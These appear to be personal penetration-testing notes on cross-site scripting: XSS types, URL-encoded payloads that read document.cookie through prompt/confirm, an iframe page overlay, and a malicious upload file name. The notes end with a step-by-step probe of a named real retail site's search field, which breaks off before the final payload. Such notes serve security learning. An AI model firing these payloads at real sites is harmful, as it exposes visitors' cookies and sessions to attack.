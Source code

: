 



1. Reflected XSS is also sometimes referred to as Non-Persistent or Type-II XSS.
2. Stored XSS is also sometimes referred to as Persistent or Type-I XSS.
3. DOM Based XSS also referred to in some texts as type-0 XSS.

# Reflected XSS
1. find input/url wich is vulnerable
2. try to POC 
    - ?q=<i>test</i>
    - ?q=<font color="red">More HTML tag;
    - ?q=hasanqoli<font color="red">More HTML tag;
3. try more html tag with url encoding via https://dencode.com/
    - ?q=%3Cfont%20color%3D%22red%22%3EMore%20HTML%20tag%3B
    - ?q=%3Cimg%20src%2Fonerror%3Dprompt%28document.cookie%29%3E
    - ?q=%0D%22%3E%3Ciframe%20src%3D%22https%3A%2F%2Fwww.cia.gov%2F%22%20style%3D%22border%3A%200%3B%20position%3Afixed%3B%20top%3A0%3B%20left%3A0%3B%20right%3A0%3B%20bottom%3A0%3B%20width%3A100%25%3B%20height%3A100%25%22%3E
    - ?q=%0D%3Cimg%20src%3DOnXSS%20onerror%3Dconfirm%28document.cookie%29%3E

# XSS file
1. find file upload function
2. upload "><img src=x onerror=alert(document.domain)>.jpg


# DOM based XSS 
https://github.com/wisec/domxsswiki/wiki
Manually testing for DOM-based XSS is a very time-consuming task. You have to track the flow of user input from the source to the sink.

1. looking HTML sinks in Firefox Inspector, and Javascript sinks in Firefox Debugger.




https://xss-quiz.int21h.jp
https://www.ascii-code.com/
https://www.cobalt.io/blog/a-pentesters-guide-to-cross-site-scripting-xss
https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#Why_Can.27t_I_Just_HTML_Entity_Encode_Untrusted_Data.3F



# XSS Sample
1. type test in search input
2. check url and reflected test in page
    https://www.nobullproject.com/collections/shop?q=test           => Search results for "test" in the page
3. try simple html tag
    https://www.nobullproject.com/collections/shop?q=<i>test</i>    => XSS POC : No results for "test" found  "test" in italic
4. try more hatml tag
    https://www.nobullproject.com/collections/shop?q=<font color="red">More HTML tag;    => No results for "" found 
5. try more html tag with some text
    https://www.nobullproject.com/collections/shop?q=hasanqoli<font color="red">More HTML tag; => No results for "hasanqoli" found
    Looking in page for hasanqoli to see how html rendered. => https://www.nobullproject.com/collections/shop?q=hasanqoli%3cfont+color%3d%22red%22%3emore+html+tag => WE FOUND the page using URL encoding
6. try more html tag with url encoding via https://dencode.com/
    https://www.nobullproject.com/collections/shop?q=%3Cfont%20color%3D%22red%22%3EMore%20HTML%20tag%3B
7. try XSS payload